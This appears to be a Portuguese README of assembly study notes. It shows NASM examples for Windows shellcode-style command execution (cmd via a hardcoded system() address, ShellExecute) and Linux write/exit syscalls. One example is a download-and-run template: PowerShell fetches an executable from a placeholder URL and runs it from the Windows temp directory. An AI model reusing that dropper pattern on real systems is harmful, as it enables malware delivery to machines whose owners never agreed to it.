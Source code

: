 # Syntax Intel vs AT&T

![Diferença de Syntax](Syntax.png)

# Instruções

![Instruções](Instrucoes.png)

# Windows

## Instruções
Os comandos devem ser enviado a stack alinhados de 4 em 4 bytes ,por exemplo 63616c632e657865 ficaria 63 61 6c 63 / 65 78 65 00, e pelo push de forma invertida e com 00 no final para o programa saber que acabou. 
Exemplo: cmd.exe00 → 00exe.cmd, em hex 63 6D 64 2E 65 78 65 → 00657865 2E646D63

---

Sempre verificar os parâmetros da função e enviar ao contrário os argumentos

---
Como compilar: 
``nasm -f win32 <file.asm>``
``golink /entry _main <file.obj> <dll> ``

---
Para pesquisar:
Forma básica: ``arwin <dll name> <function name>``

---
## Exemplos
### Cmd 
```nasm
extern system
global _main

section .text ;Define a sessão de código
_main: ;Define a main

	push 0x00657865 ;00exe
	push 0x2e646d63 ;.cmd
	push esp
	pop eax
	push eax
	mov ebx, 0x76453dc0 ;Chama o system
	call ebx
```
### Compilando
- `nasm -f win32 file.asm`
- `golink /entry _main file.obj msvcrt.dll`
---
### Caixa de texto
```nasm
extern _MessageBoxA
global _main

section .data
	msg db "<msg>",0
	title db "<title>",0

section .text
_main:
	push 0
	push title
	push msg
	push 0
	call _MessageBoxA
```
### Compilando
- `nasm -f win32 file.asm`
- `golink /entry _main file.obj User32.dll /mix`
---
### Execução de comandos no cmd
```nasm
extern _ShellExecuteA
global _main

section .data
	type db "open",0
	cmd db "cmd",0
	par db "/c <command>",0

section .text
_main:
	push 0
	push 0
	push par
	push cmd
	push type
	push 0
	call _ShellExecuteA
```
### Compilando
- `nasm -f win32 file.asm`
- `golink /entry _main file.obj Shell32.dll /mix`
---
### Download por cmd
```nasm
extern _ShellExecuteA
global _main

section .data
	type db "open",0
	cmd db "cmd",0
	par db "/c  powershell -Command wget '<url.exe>' -OutFile <dir.exe> ; <dir.exe>, 0

section .text
_main:
	push 0
	push 0
	push par
	push cmd
	push type
	push 0
	call _ShellExecuteA
```
### Diretório Recomendado
- Diretório temporário do Windows -> c:\windows\temp\

### Compilando
- `nasm -f win32 file.asm`
- `golink /console /entry _main file.obj User32.dll /mix`
---
# Linux
## Instruções

Como compilar em x86: 
``nasm -f elf32 <file.asm>``

Como linkar em x86:
`ld --entry _main <file.o> -m elf_i386 -o <output file>`

---
Como compilar em x64: 
``nasm -f elf64 <file.asm>

Como linkar em x64:
`ld --entry _main <file.o> -o <output file>```

---
## Sites Úteis
[https://syscalls.w3challs.com/?arch=x86](https://syscalls.w3challs.com/?arch=x86)

[https://syscalls.w3challs.com/?arch=x86_64](https://syscalls.w3challs.com/?arch=x86_64)

[https://asciitohex.com](https://asciitohex.com)


---
## Exemplos
### Texto no bash x86
```nasm
global _main

section  .data
	<text>: db '<text>',0xa

section .text
_main:
	mov eax, 4
	mov ebx, 1; STDIN0, STDOUT1, STDERR2
	mov ecx, <text>
	mov edx, <text size>
	int 0x80

	mov eax, 1
	mov ebx, 0
	int 0x80
```
---
### Texto no bash x64
```nasm
global _main

section  .data
	<text>: db '<text>'0xa

section .text
_main:
	mov rax, 1
	mov rdi, 1; STDIN0, STDOUT1, STDERR2
	mov rsi, <text>
	mov rdx, <size>
	syscall

	mov rax, 60
	mov rdi, 0
	syscall
```
